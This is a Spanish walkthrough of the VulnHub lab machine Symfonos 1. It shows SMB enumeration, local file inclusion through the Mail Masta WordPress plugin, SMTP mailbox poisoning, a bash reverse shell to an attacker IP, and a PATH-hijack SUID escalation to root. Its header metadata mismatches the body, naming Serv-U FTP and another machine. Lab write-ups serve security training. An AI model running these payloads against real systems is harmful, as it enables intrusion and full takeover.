# Symfonos

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux</h3>

<h3> Vulnerabilidad explotada: Serv-U FTP Server (Local Privilege Escalation)</h3>

<h3> Fecha de resolución: 15/10/2025 </h3>

<h3>Enlace de la mv: <a href="https://www.vulnhub.com/entry/election-1,503">Election</a></h3>

### *Leer el documentro en Ingles* <a href="election_ingles.md">Election</a>

## Reconocimiento

Vulnhub no nos proporciona la ip de la máquina objetivo **192.168.0.104**

**ARP-SCAN**

Ejecutamos el siguiente comando:

```
sudo arp-scan -I eth0 --localnet
```

<p align="center"> 

</p>

La ip es 192.168.0.104 porque 08:00 es que una máquina virtual esta encendida.

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **symfonos.localdomain** porque luego al realizar el nmap comprobaremos que hay un dominio con ese nombre

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 192.168.0.104
```

<p align="center"> 

</p>

**Su el ttl es 64, por tanto, es Linux**

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 192.168.0.104
```
<p align="center"> 

</p>

<p align="center"> 

</p>

<div align="center">

| Open port | Service     | Version                                       |
| --------- | ----------- | --------------------------------------------- |
| 22        | ssh         | OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0) |
| 25        | smtp        | Postfix smtpd                                 |
| 80        | http        | Apache httpd 2.4.25                           |
| 139       | netbios-ssn | ttl 64 Samba smbd 3.X - 4.X                   |
| 445       | netbios-ssn | ttl 64 Samba smbd 4.5.16-Debian               |

</div>

#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn 192.168.0.104
```

<p align="center"> 

</p>

<div align="center">

| Open Port | SERVICE    |
| --------- | ---------- |
| 137       | netbios-ns |

</div>

Al estar este puerto abierto, me puede revelar nombre del host, dominio/grupo de trabajo, a veces usuario.
## Exploración

Como Samba está abierto (puerto 445 (TCP) y 139(TCP)) que se usa para compartir archivos, voy usa la herramienta rcpcclient

```
rpcclient -U "" -N 192.168.0.104
```
Luego, una vez dentro usaré comandos como **querydispinfo**, **enumdomusers**, **srvinfo**

<p align="center"> 

</p>

Podemos comprobar que en el sistema existe un usuario llamado helios.

A continuación, usaremos la herramienta smbmap

```
smbmap -H 192.168.0.104
```

<p align="center"> 

</p>

Comprobamos que podemos leer algo desde el usuario anonymous

```
smbmap -H 192.168.0.104 -r anonymous
```

<p align="center"> 

</p>

Nos encontramos un archivo llamado **attention.txt**

Para visualizarlo, lo descargaremos con el siguiente comando

```
smbmap -H 192.168.0.104 --download anonymous/attention.txt
```

<p align="center"> 

</p>

```
cat 192.168.0.104-anonymous_attention.txt
```

<p align="center"> 

</p>

Las posibles contraseña del usuario helios son **epidioko**, **qwerty** y **baseball**

Tras probar cual es la correcta...

```
smbmap -H 192.168.0.104 -u helios -p qwerty
```

<p align="center"> 

</p>

Nos metemos dentro del directorios helios 

```
smbmap -H 192.168.0.104 -u helios -p qwerty -r helios
```

<p align="center"> 

</p>

Descargamos ambos archivos y lo visualizamos 

```
smbmap -H 192.168.0.104 -u helios -p qwerty --download helios/research.txt
smbmap -H 192.168.0.104 -u helios -p qwerty --download helios/todo.txt
```

<p align="center"> 

</p>

Encontramos una nueva ruta

En el navegador ponemos http://symfonos.local/h3l105/

<p align="center"> 

</p>

Luego, investigando dentro de la pagina encontramos como iniciar sesión en WordPress y nos damos cuenta que dentro de WordPress existe el usuario **admin** por la herramienta **wpscan**. Intento realizar fuerza bruta para encontrar la contraseña pero no hubo éxito.

Recordemos, siempre cuando tenemos una pagina WordPress usamos esta herramienta para ver si tiene algún plugin habilitado, y así realizar poder explotar la vulnerabilidad.

```
wpscan --url http://192.168.0.104/h3l105/ -e u,p
```

<p align="center"> 

</p>

Por lo visto, no ha encontrado ningún plugin. Otra forma de encontrar plugin es usando este comando de manera ingeniosa.

```
curl http://192.168.0.104/h3l105/ | grep 'wp-content' 
```

<p align="center"> 

</p>

Con este truco si hemos encontrado plugins como **site-editor** y **mail.masta**

A continuación vamos a explotar mail masta que es un plugins, comúnmente explotado

<p align="center"> 

</p>

Dentro de la pagina...

<p align="center"> 

</p>

Por tanto nuestra url quedaría de la siguiente manera:

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

control + u
```

<p align="center"> 

</p>

Podemos visualizar el fichero /etc/passwd y podemos comprobar que el usuario **helio** existe.

## Explotación

Por otro lado, tenemos el puerto 25 abierto smtb, lo que significa que podemos compartir archivos, por lo que intentaremos enviar un archivo malicioso, para luego hacer una reverse shell. 

En primer lugar escribiremos este comando.

```
nc symfonos.local 25
```
Podemos realizar una prueba para comprobar si funciona.

```
EHLO empe
```

<p align="center"> 

</p>

Comprobamos que funciona, ahora realizaremos el envio de archivo malicioso con los siguientes comandos

```
MAIL FROM: <Puede inventarte el email>
RCPT TO: <Escribes un usuarios que existe en el sistema>
DATA
```

<p align="center"> 

</p>

A continuación explico lo que hay que escribir después de DATA, eso en cuestión sería el contenido del archivo malicioso, luego al final escribimos un . para finalizar el proceso.

El siguiente paso es ahora saber donde se ha alojado este archivo que hemos creado recien. por tanto en google buscamos

```
en que directorio de linux se guarda lo que escriba del puerto 25 smtb
```

<p align="center"> 

</p>

Por tanto nuestra url quedaría de la siguiente manera:

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id
```

<p align="center"> 

</p>

Con esta prueba realizada con éxito podemos realizar a continuación una reverse shell.

A continuación haremos lo siguiente:

Codificamos los conectores de este código:

```
bash -c "sh -i >& /dev/tcp/192.168.0.103/4444 0>&1"
```

por: 

**>** → %3E

& → %26

Por tanto, quedaría:

```
bash -c "sh -i %3E%26 /dev/tcp/192.168.0.103/4444 0%3E%261"
```

Por lo tanto, la url quedaría:

```
symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=bash -c "sh -i %3E%26 /dev/tcp/192.168.0.103/4444 0%3E%261"
```

Preparamos el puerto de escucha:

```
nc -lvnp 4444
```

<p align="center"> 

</p>

#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
### Escalada de Privilegios

#### Primer comando:

```
sudo -l
```

Nada
#### Segundo comando:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

Comprobamos que es /opt/statuscheck

<p align="center"> 

</p>

Por lo que observamos es un curl, revisamos de quien es el propietario

<p align="center"> 

</p>

Es de **root**, por tanto la idea ahora sería usar PATH a nuestro favor para ser root, para ello tenemos que hacer lo siguiente:

Editamos el contenido de /opt/statuscheck (curl) por:

```
echo chmod u+s /bin/bash > curl
```

Luego le damos todos los permisos a curl:

```
chmod 777 curl
```

y por ultimo, lo ejecutamos:

```
export PATH=.:$PATH
/opt/statuscheck
bash -p
```

<p align="center"> 

</p>

## Conclusión

Esta máquina de la plataforma VulnHub, llamada **Symfonos 1**, me pareció muy curiosa y entretenida. Empecé explorando los recursos compartidos por SMB (SAMBA), donde encontré una ruta interesante. Luego descubrí que la página web era un WordPress. Utilicé la herramienta **wpscan** para buscar plugins vulnerables y posibles puntos de explotación, pero no encontré nada útil.

Como no hubo resultados, decidí seguir una técnica más manual para averiguar qué plugins estaban instalados. Así descubrí que estaba activo el plugin **Mail Masta**, y lo exploté subiendo un archivo malicioso a través de él. Con eso conseguí una reverse shell y acceso inicial al sistema.

Para la escalada de privilegios ejecuté el comando:

```
find / -perm -4000 2>/dev/null
```

y encontré un binario con permisos SUID en la ruta `/opt/statuscheck`. Ese binario usaba `curl` y pertenecía al usuario root. Me moví al directorio `/tmp` y sustituí el contenido de `curl` por uno que ejecutara `bash` con los privilegios del archivo. Lo ejecuté y conseguí acceso como root, lo que me permitió obtener la flag final.

En resumen, es una máquina bastante interesante, en la que se aprende mucho, se repasan conceptos y también se descubren técnicas nuevas.